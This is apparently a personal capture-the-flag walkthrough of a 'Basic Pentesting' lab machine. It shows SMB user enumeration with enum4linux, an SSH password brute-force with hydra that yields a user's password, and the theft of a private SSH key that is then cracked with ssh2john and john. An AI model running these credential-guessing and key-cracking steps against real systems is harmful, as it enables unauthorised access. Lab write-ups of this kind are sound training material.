 # Machine Name : Basinc Pentesting
# Machine IP : 10.10.103.67

# Scanning
Reference file path : /Gathering/Basic_Pentesting_Scan_Result.md <br>

# Gobuster
Reference file path : /Gathering/gobusterResult.md <br>

# Samba Enumeration Result : 
***command : ./enum4linux.pl -a {ip} | tee {output log file}*** <br>
***Reference file path : /Gathering/enumSMB.log *** <br>

***enum4linx result shorting *** <br>
WARNING: polenum.py is not in your path.  Check that package is installed and your PATH is sane.   <br>
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat May 16 22:08:45 2020   <br>

|    Target Information    |   <br>
Target ........... 10.10.28.75   <br>
RID Range ........ 500-550,1000-1050  <br> 
Username ......... ''   <br>
Password ......... ''   <br>
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none   <br>
...  
***S-1-22-1-1000 Unix User\kay (Local User)***<br>
***S-1-22-1-1001 Unix User\jan (Local User)***<br>

|    Getting printer info for 10.10.28.75    |   <br>
No printers returned.   <br>

# Password Guessing : 
***command : hydra -l jan -P password-guessing-list.txt ssh://10.10.28.75/ <br> ***

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. <br>
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-16 23:17:58   <br>
[WARNING] Many SSH configurations limit the number of parallel tasks, it is   recommended to reduce the tasks: use -t 4   <br>
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task   <br>
[DATA] attacking ssh://10.10.28.75:22/   <br>
[STATUS] 142.00 tries/min, 142 tries in 00:01h, 14344256 to do in 1683:36h, 16 active   <br>
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344062 to do in 2134:32h, 16 active   <br>
[STATUS] 105.14 tries/min, 736 tries in 00:07h, 14343662 to do in 2273:41h, 16 active   <br>
***[22][ssh] host: 10.10.28.75   login: jan   password: armando***<br>  
1 of 1 target successfully completed, 1 valid password found   <br>
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-16 23:25:25   <br>

# Privilege Escalate 
Linpeas is privilege escalate tool<br>
[+] Linpeas <br>
  1. id_rsa copyit   <br>
  2. ssh2john.py crack it  <br>    
  ./ssh2john.py /Users/scops/tools/hacking_project/thm/Basic_Pentesting/kay_id_rsa > forjohn.txt <br>

# Using the john !
***How to use "john the ripper"*** <br>
john forjohn.txt --wordlist=/Users/scops/tools/password_guessing_list.txt <br>

